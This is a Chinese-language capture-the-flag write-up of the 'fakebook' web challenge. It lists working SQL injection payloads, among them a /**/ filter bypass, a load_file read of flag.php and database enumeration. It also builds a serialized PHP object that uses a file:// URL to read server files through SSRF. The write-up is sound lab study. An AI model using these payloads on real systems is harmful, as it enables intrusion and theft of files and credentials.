

# fakebook

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c500b9d0-d809-4879-a7a8-5b12da735c57_2)

我卡在了这道题的第一步……场景打开是普通的注册和登录界面。


很离谱的是我不知道怎么注册……注册界面要求填写blog，当我随便填个名字时却显示无效。后来我才知道要遵循“www.xxx.com”的形式。



点进注册的blog发现显示不知道为啥不完全。URL也很可疑，使用get传参的形式。

- http://61.147.171.105:54899/view.php?no=1

更改参数no的值发现有回显，得到了当前网站运行路径。


输入引号有报查询错误，考虑URL SQL注入。放到burpsuite的repeater来找有效payload。先试一下union select，正确的列数到时候一起找，就懒得order by了。

- /view.php?no=2+union+select+1--+

可惜没有成功，有过滤。只传union报查询错误，只传select也报查询错误，但是在同时传union select时会提示no hack，于是判断过滤内容是union select。这里只需要找个能在不输入空格的情况下又能让系统识别出union select的方法，比如用多行注释/**/。

- /view.php?no=2+union/**/select+1,2,3,4--+

最后在四列时没有报错。按照一般流程就该爆库爆表爆字段了，但是有没有啥捷径呢？通过搜索可得MySQL有个叫load_file的方法，可以读取一个文件的内容并将其作为字符串返回。这个方法当然比常规的方法简单很多，就是有条件限制：

- ### 条件
  > 必须有权限读取并且文件必须完全可读。
  > 读取文件必须在服务器上
  > 必须指定文件完整的路径
  > 读取文件必须小于max_allowed_packet

后三条应该满足，flag没多大且肯定在服务器上，我们也有了当前网站绝对路径所以可以猜一下flag的路径。第一条可以用一条语句确定当前用户用没有读取权限。

- /view.php?no=1+and+(select+count(*)+from+mysql.user)>0--+

如果页面回显正常就证明有权限，报错就说明没有，应该是管理员对数据库账户降权了。

或者也可以用这个办法：

- /view.php?no=2+union/**/select+1,user(),3,4--+

返回结果是root@localhost，那就是有权限了。条件基本都满足，可以猜flag路径了。猜flag就在当前目录下，最后发现/var/www/html/flag.php是正确路径。

- /view.php?no=2+union/**/select+1,load_file("/var/www/html/flag.php"),3,4--+

flag在源代码中。最后看官方writeup还发现有反序列化和SSRF的解法。我太菜了就先用这种解法吧。ʕ •ᴥ•ʔ

## Flag
  > flag{c1e552fdf77049fabf65168f22f7aeab}

跑去另一个靶场又看到了这道题，那这回就学习一下另一种解法吧。

[题目地址](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202018]Fakebook)

另一种思路，进入网站没有头绪就扫目录。这题比较简单，直接看robots.txt就能找到源代码目录/user.php.bak。

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

一堆和[curl](https://www.php.net/manual/zh/ref.curl.php)相关的函数。了解一下就好了，函数先是用curl_init()初始化curl会话，得到一个句柄；接着curl_setopt用刚刚的句柄设置传输选项；然后curl_exec执行会话，curl_getinfo获取连接资源的信息；最后curl_close关闭会话。没啥问题，问题在于curl的网页由this->blog决定。如果我们能更改这个blog，就能任意读取文件。先按照正常步骤爆一些数据库内容。

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,group_concat(table_name),3,4%20from%20information_schema.tables%20where%20table_schema=database()--+

得到表名users。

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,group_concat(column_name),3,4%20from%20information_schema.columns%20where%20table_name=%27users%27--+

得到列名no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS。no应该是id，username和passwd没啥看的，data是啥？看看。

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,group_concat(no,'~',username,'~',passwd,'~',data),3,4 from fakebook.users--+
  > 1~a~1f40fc92da241694750979ee6cf582f2d5d7d28e18335de05abc54d0560e0f5302860c652bf08d560252aa5e74210546f369fbbbce8c12cfc7957b2652fe9a75~O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:9:"www.a.com";}

联合注入可以参考[这里](https://blog.csdn.net/kingdring/article/details/109685593),注意字段名例如username这些不需要加引号，中间的～符号单纯用来分割查询出来的字段，换个别的喜欢的也行。fakebook.users也不需要引号。按照分割比对一下，data正是格式化字符串内容。构造payload把flag文件路径写进去就行了。

```php
<?php
class UserInfo
{
    public $name = "a";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";

}
$res = new UserInfo();
echo serialize($res);
```

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from fakebook.users--+

在4处写入是因为这里对应了data字段，此处注入参考[这道题](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/BabySQli.md)。执行后查看源代码，能发现这样一句话。

```html
<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tiOGVhYTJkYi1lMjI4LTQxOTktOTBmZS00ZjZhYjJjMzE4MzZ9IjsNCmV4aXQoMCk7DQo='>
```

base64解密后就是flag。

## Flag
> flag{b8eaa2db-e228-4199-90fe-4f6ab2c31836}